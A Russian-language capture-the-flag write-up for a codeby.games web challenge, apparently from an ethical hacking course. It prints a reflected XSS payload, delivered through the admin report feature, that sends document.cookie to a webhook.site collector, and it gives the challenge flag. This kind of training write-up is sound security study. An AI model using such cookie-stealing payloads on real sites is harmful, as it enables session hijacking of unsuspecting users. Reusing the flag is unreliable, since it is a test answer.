






# Врайт-ап задания "Клиент всегда прав" с платформы codeby.games



Задание “Клиент всегда прав” имеет сложность “Средний” и относится к категории Веб

---

Переходим по указанному адресу **(62.173.140.174:16013)** и видим страницу с публикациями и поиском по ним



Мы можем попробовать проэксплуатировать базовую XSS уязвимость вида 

```jsx
<script>alert(1)</script>
```



Но в данном случае толку от не не будет, потому что она никак не взаимодействует с админом.

Нас больше интересует кнопка Report напротив каждой публикации. Попробуем перейти по ней и посмотреть на url страницы



Отсюда мы можем увидеть что репорт отправляется непосредственно админу

---

Напишем пейлоад который вставим после функции репорта

```jsx
search=<script>document.location='http://{наш сервер}//?c='%252bencodeURIComponent(document.cookie)</script>
```

Теперь надо объяснить, что делает каждый из параметров в пейлоаде

- c= - параметр который будет использоваться для передачи куков
- %252bencodeURIComponent(document.cookie) - функция которая будет кодировать куки и передавать их в параметр c=

В моем случае я буду использовать webhook, тк burp работает у меня через раз



берем наш webhook с сайта [webhook.site](http://webhook.site) и добавляем в наш пейлоад. Тогда итоговая ссылка, которую нам надо будет ввести в поисковую строку будет выглядеть следующим образом

```jsx
http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='http://{webhook_url}//?c='%252bencodeURIComponent(document.cookie)</script>
```

После перехода по этой ссылке сайт с вебхуком будет выглядеть следующим образом



Наш флаг будет: CODEBY{r3fl3cted_XSS_expl0it3d}

---

Написано [frechez](https://t.me/peeepaw) для курса "Этичный хакинг"